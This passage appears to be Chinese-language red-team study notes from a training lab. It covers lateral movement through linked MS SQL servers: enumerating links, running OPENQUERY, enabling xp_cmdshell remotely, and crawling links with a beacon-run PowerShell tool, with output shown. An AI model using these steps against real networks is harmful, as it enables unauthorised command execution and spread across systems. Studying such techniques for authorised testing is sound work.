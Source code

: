 ```

这里要注意：
1. sql命令可能有长度限制
2. sql服务器可能无法直接访问kali，需要转发和pivot监听



# MS SQL Lateral Movement

mssql支持多个源，包括其他SqlServer，这些SqlServer可能存在其他机器，域，或者林中。如此横向移动就成为可能。

1. 获取实例
## 方法一，手动抓取

枚举当前机器的mssql的实例
```
SELECT * FROM master..sysservers;
```

![alt sqlserver](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/srv1-link.png?width=1920)


可以利用上面的实例运行sql语句

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

**注意，上面实例使用双引号，sql语句使用单引号。**


查看某个实例是否有xp_cmdshell权限
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

如果被禁用，开启xp_cmdshell
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

## 方法二，自动抓取 


使用```Get-SQLServerLinkCrawl```命令

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

